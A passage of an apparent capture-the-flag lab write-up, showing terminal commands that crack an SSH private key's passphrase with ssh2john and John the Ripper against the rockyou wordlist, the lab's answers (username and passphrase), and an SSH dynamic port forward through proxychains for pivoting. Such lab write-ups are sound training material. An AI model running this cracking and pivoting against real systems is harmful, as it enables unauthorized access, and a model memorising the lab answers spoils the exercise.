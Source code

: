 
* Get username and password

```bash

└─$ cat note.txt 
I always forget my password. Just let me store an ssh key here.
- errorcauser


└─$ locate ssh2john
/usr/share/john/ssh2john.py
                                                                                                                                                      

└─$ /usr/share/john/ssh2john.py id_rsa > hashfile
                                                                                                                                                      

└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashfile 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
cupcake          (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:22 DONE (2022-01-27 09:02) 0.04522g/s 648652p/s 648652c/s 648652C/sa6_123..*7¡Vamos!
Session completed

```

#### Questions

* What username do we find during the enumeration process?

> errorcauser

* What is the passphrase for the RSA private key?

> cupcake

### Port Forwarding

* Create a SSH port forward

```bash
└─$ ssh -i id_rsa -D 1337 errorcauser@10.10.184.227
 # After the connection change socks settings in proxychains
 
 └─$ sudo nano /etc/proxychains4.conf
 # socks5 127.0.0.1 1337
 
```
